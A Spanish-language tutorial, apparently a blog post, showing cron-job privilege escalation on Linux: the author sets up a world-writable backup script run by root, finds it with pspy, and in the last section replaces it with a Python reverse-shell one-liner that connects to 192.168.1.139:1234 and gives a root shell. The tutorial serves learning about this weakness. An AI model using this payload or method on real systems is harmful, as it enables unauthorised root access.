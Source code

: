 # Explotación tareas Cron

Las tareas Cron se utilizan para programar tareas que se van a ejecutar a **intervalos regulares de tiempo**, es decir, en fechas y horas específicas. Habitualmente, se utilizan para programar **copias de seguridad**, borrados de archivos, envío de logs, etc.

Las tareas Cron tienen una sintaxis específica que nos va a permitir indicar qué tipo de tarea queremos ejecutar, cada cuanto tiempo ha de ejecutarse, qué usuario va a ejecutar la tarea, etc.

## Creación tarea Cron

Vamos a desarrollar un pequeño script en **Python3** que nos permita hacer una copia de un fichero que tengamos en una carpeta y lo guarde en otra llamada “Backup”.

```python
#!/usr/bin/python3
import sys 
import time 
import subprocess 
from pwn import * 
if __name__ == "__main__": 
    log.progress("Comenzando con la copia") 
    result = subprocess.run(["cp", "/home/diego/articulosBlog/explotacionTareasCron/privado/documentos.txt", "/home/diego/articulosBlog/explotacionTareasCron/backup"], capture_output=True, text=True) 
    if (result.returncode == 0): 
        log.info("Copia completada") 
        sleep(1) 
    else: 
        log.info("Ha ocurrido un error") 
```

Para poder explotar las tareas Cron es necesario que los permisos (del script que se va a ejecutar) estén **mal configurados**. Por tanto, asignaremos permisos de escritura a “otros” (_chmod o+w_).

Una vez tengamos el script y los permisos configurados, estamos listos para configurar la tarea Cron. Para ello, tenemos que **editar el fichero** /etc/crontab.

Siguiendo la sintaxis de las tareas Cron previamente explicada, podemos programar una tarea en la que, el usuario **root** ejecute el script, anteriormente desarrollado, cada minuto. Para ello, añadimos la siguiente línea:

```bash
* * * * * root python3 /home/diego/articulosBlog/explotacionTareasCron/script.py
```

Esta acción tan simple, se va a ejecutar cada minuto por parte del usuario root, pero para ello es necesario arrancar el **demonio** de Cron.

```bash
sudo service cron start
```

Podemos comprobar el estado del demonio mediante el comando:

```bash
sudo service cron status
```

## Detección de tareas Cron

La búsqueda de tareas Cron es un paso muy habitual a la hora de **enumerar** posibles vías para escalar privilegios. Podríamos desarrollar un  pequeño script que nos las detecte (de una manera muy básica) o usar alguno desarrollado con importantes mejoras. Yo os voy a enseñar cómo usar [pspy](https://github.com/DominicBreuker/pspy).

**Pspy** es una herramienta muy interesante que nos va a permitir ver las tareas Cron que se ejecutan en el sistema, al igual, que el usuario que las ejecuta. Está programado en **Go** y para poder usarlo podemos compilarlo nosotros o descargar la [versión compilada](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64)

El uso es muy sencillo, le damos **permisos** de ejecución y lo lanzamos (_./pspy64_). Empezaremos a ver tareas que se ejecutan a intervalos regulares de tiempo, entre ellas, tiene que estar la que acabamos de crear:

```bash
2021/07/23 20:51:01 CMD: UID=0 PID=158638 | python3 /home/diego/articulosBlog/explotacionTareasCron/script.py
```

Como vemos el **UID** es 0 lo que indica que lo está ejecutando root y vemos la ruta del script.

## Explotación tareas Cron

Ahora, un posible atacante con privilegios de usuario comprobaría los permisos de ese script, que se ejecutará como **root**, y como **“otros”** tienen permiso de escritura, podría modificarlo.

Por ejemplo, podría aprovechar esta vulnerabilidad para obtener una **reverse shell**, obteniendo acceso con privilegios elevados.

Modificamos el contenido del script por el siguiente:

```python
#!/bin/python3
import sys
import time
import subprocess
from pwn import *
 
if __name__ == "__main__":
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.139",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

Nos ponemos en escucha por el puerto 1234. Cuando se ejecute el script, obtendremos acceso como el usuario root.\


\
\
\
\
\


\
\
\
\
